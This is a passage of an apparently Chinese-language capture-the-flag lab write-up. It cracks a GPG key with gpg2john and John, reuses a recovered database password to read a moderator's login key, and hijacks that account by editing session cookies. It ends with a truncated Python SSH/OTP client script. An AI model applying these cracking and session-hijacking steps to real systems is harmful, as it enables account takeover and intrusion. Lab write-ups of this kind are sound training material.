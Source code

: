 ![在这里插入图片描述](https://img-blog.csdnimg.cn/777453bf13eb4dbebf320935b82c2e1b.png)

gpg2john+john直接爆

![在这里插入图片描述](https://img-blog.csdnimg.cn/606ac4c90eb74518a910397049410f16.png)

gpg解密得到数据库的密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/6b0c6994eb1c43eeb94bc235bfb6af86.png)

插件中是使用mod登录数据库

```php
//!!!!!!SQL LOGIN for modManager (needed for reading login_keys for user migration)
define('localhost', 'localhost:3306');
//mysql connect using user 'mod' and password from 'sql_p varirable'
$db = mysql_connect('localhost','mod',$sql_p);
```

直接登mysql

在里面找到了另一个我们之前没有密码的版主的login_key

![在这里插入图片描述](https://img-blog.csdnimg.cn/a52b4b3f1e2a42e38d8e75a6f3dd43b2.png)

使用cookie editor找到了使用login_key的位置，uid+login_key

![在这里插入图片描述](https://img-blog.csdnimg.cn/cc1ca0d0c31f4e9383829437700e35f2.png)

直接改成blackcat的uid和login_key

![在这里插入图片描述](https://img-blog.csdnimg.cn/a77cac81261941d2a13571e873442a6e.png)

在里面找到一些文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/16cb4719607c4fbba97a159efb6ba4a0.png)

找到了房间所说的文档，看的有点晕，来一颗wp救心丹[@siunam321](https://siunam321.github.io/ctf/tryhackme/M4tr1x-Exit-Denied/)

```python
from datetime import datetime, timedelta
from hashlib import sha256
import random
from paramiko import SSHClient, AutoAddPolicy, AuthenticationException, ssh_exception
import os
import ntplib

class TimeSimulatorClient:
    def __init__(self, sharedSecret1, sharedSecret2, sharedSecret3, targetIPAdress):
        self.sharedSecret1 = sharedSecret1
        self.sharedSecret2 = sharedSecret2
        self.sharedSecret3 = sharedSecret3
        self.targetIPAdress = targetIPAdress
        self.listSecret = [sharedSecret1, sharedSecret2, sharedSecret3]

    def setTimeZone(self):
        try:
            print('[*] Setting timezone to UTC')
            print('[*] Before:')
            os.system('sudo timedatectl --value')
            os.system('sudo timedatectl set-timezone UTC')
            print('[+] Timezone has been changed to UTC')
        except:
            print('[-] Couldn\'t set the timezone to UTC')

    def syncTime(self):
        try: 
```